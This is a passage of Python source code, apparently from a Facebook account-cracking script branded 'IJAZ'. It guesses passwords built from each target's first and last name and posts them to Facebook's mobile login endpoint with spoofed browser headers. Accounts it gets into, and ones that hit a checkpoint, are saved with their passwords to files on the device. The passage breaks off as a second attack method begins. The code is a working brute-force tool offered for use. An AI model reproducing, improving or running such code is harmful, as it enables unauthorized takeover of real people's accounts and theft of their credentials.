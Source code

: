 			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua=random.choice(ugen)
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="109", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
			IJAZ=session.cookies.get_dict().keys()
			if "c_user" in IJAZ:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\r\r\033[1;32m [IJAZ-OK] %s | %s'%(ids,pas))
				open('/sdcard/IJAZ-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in IJAZ:
				if 'y' in pcp:
					print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
					open('/sdcard/IJAZ-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)
	loop+=1
#method6
#d.fb
def api7(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write('\r\r\033[1;37m [IJAZ-M7] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua=random.choice(ugen)